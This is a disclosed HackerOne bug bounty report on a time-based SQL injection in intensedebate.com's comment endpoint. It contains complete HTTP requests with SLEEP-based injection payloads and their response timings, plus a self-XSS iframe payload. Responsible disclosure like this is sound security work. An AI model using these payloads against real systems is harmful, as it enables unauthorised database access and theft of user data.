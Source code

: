 # [intensedebate.com] SQL Injection Time Based On /js/commentAction/

## Report Details
- **Report ID**: 1044698
- **URL**: https://hackerone.com/reports/1044698
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-26T18:12:48.990Z
- **Disclosed**: 2021-01-01T09:19:37.451Z

## Reporter
- **Username**: fuzzme
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
[intensedebate.com] SQLi Time Based On /js/commentAction/

## Summary:

Hello,

I have found a SQLI Injection Time Based on `/js/commentAction/`.

When a user want to submit/reply to a comment, a JSON payload was send by a GET request.


```GET /js/commentAction/?data={"request_type":"0",+"params":+{+"firstCall":true,+"src":0,+"blogpostid":504704482,+"acctid":"251219",+"parentid":"0",+"depth":"0",+"type":"1",+"token":"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh",+"anonName":"",+"anonEmail":"X",+"anonURL":"",+"userid":"26745290",+"token":"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh",+"mblid":"1",+"tweetThis":"F",+"subscribeThis":"1",+"comment":"w"}} HTTP/1.1
Host: www.intensedebate.com```

The key `"acctid":"251219"` is vulnerable to SQL Injection Time based


## Detection :

```
GET /js/commentAction/?data={"request_type":"0",+"params":+{+"firstCall":true,+"src":0,+"blogpostid":504704482,+"acctid":"251219%20AND%20SLEEP(15)%23",+"parentid":"0",+"depth":"0",+"type":"1",+"token":"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh",+"anonName":"",+"anonEmail":"X",+"anonURL":"",+"userid":"26745290",+"token":"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh",+"mblid":"1",+"tweetThis":"F",+"subscribeThis":"1",+"comment":"w"}} HTTP/1.1
Host: www.intensedebate.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://www.intensedebate.com/commentPopup.php?acct=0de44735e7089c61f14c17373373c235&postid=473573&posttitle=Jimmy%20Butler%20de%20retour,%20les%20Wolves%20
Cookie: login_pref=IDC; idcomments_userid=26745290; idcomments_token=6426c387ebed7ec573f03d218e0d4c2a%7C1607620848; country_code=FR; IDNewThreadComment=w
```

HTTP Response `15 414 millis`


```
GET /js/commentAction/?data={"request_type":"0",+"params":+{+"firstCall":true,+"src":0,+"blogpostid":504704482,+"acctid":"251219%20AND%20SLEEP(7)%23",+"parentid":"0",+"depth":"0",+"type":"1",+"token":"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh",+"anonName":"",+"anonEmail":"X",+"anonURL":"",+"userid":"26745290",+"token":"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh",+"mblid":"1",+"tweetThis":"F",+"subscribeThis":"1",+"comment":"w"}} HTTP/1.1
Host: www.intensedebate.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://www.intensedebate.com/commentPopup.php?acct=0de44735e7089c61f14c17373373c235&postid=473573&posttitle=Jimmy%20Butler%20de%20retour,%20les%20Wolves%20
Cookie: login_pref=IDC; idcomments_userid=26745290; idcomments_token=6426c387ebed7ec573f03d218e0d4c2a%7C1607620848; country_code=FR; IDNewThreadComment=w
```

HTTP Response `7 660 millis`

Bonus :  the  key`"src":0` is vulnerable to self-XSS, change the value by `"<iframe%20src=%23%20onload=alert('XSS')>"` and you will see a XSS pop-up


## POC

SQLi Time based : sleep_7.png, sleep_15.png and POC.mp4
Self-XSS : Self-XSS.mp4


Thank you, good bye.

Fuzzme.

## Impact

Full database access holding private user information.

## Attachments
- sleep_7.png
- sleep_15.png
- Self-XSS.mp4
- POC.mp4

